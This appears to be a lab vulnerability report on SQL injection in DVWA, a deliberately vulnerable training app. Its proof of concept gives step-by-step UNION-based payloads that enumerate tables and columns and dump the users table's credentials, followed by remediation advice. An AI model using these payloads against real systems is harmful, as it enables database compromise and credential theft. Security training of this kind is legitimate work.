








## Overview

- **Application:** DVWA (Damn Vulnerable Web Application)
- **Vulnerability:** SQL Injection (SQLi)
- **Location:** /vulnerabilities/sqli/
- **Parameter:** id
- **Method:** GET
- **Severity:** Critical
- **CVSS Score:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)


## Description

A SQL Injection vulnerability exists in the `id` parameter of the DVWA SQL Injection module.  
The application fails to properly sanitize user input before including it in a SQL query.

This allows an attacker to:
- Extract sensitive database information
- Bypass authentication
- Dump user credentials


## Affected Endpoint

http://10.236.92.45:8080/vulnerabilities/sqli/?id=1&Submit=Submit#


 Proof of Concept (PoC)

### Step 1 — Confirm Injection

```sql
1' OR '1'='1'#
```




### Step 2 — Column Enumeration

```sql
1' ORDER BY 1#  
1' ORDER BY 2#  
1' ORDER BY 3# 
```

Result:
- Error at column 3 → Total columns = 2




### Step 3 — Identify Reflected Columns

```sql
-1' UNION SELECT 1,2#
```




### Step 4 — Extract Database Info

```sql
-1' UNION SELECT database(),version()#
```




### Step 5 — Enumerate Tables

```sql
-1' UNION SELECT table_name,null  
FROM information_schema.tables  
WHERE table_schema=database()#
```



### Step 6 — Enumerate Columns

```sql
-1' UNION SELECT column_name,null 
FROM information_schema.columns 
WHERE table_name='users'#
```




### Step 7 — Dump Credentials

```sql
-1' UNION SELECT user,password FROM users#
```




## Impact

- Full database disclosure
- Credential leakage
- Authentication bypass


## Root Cause

- Unsanitized input
- Dynamic SQL queries
- No prepared statements


## Remediation

- Use prepared statements
- Validate and sanitize inputs
- Disable detailed SQL errors


## Tools Used

- Burp Suite
- Browser (Manual Testing)
- DVWA


## Conclusion

This SQL Injection vulnerability allows full compromise of the database and must be fixed immediately.

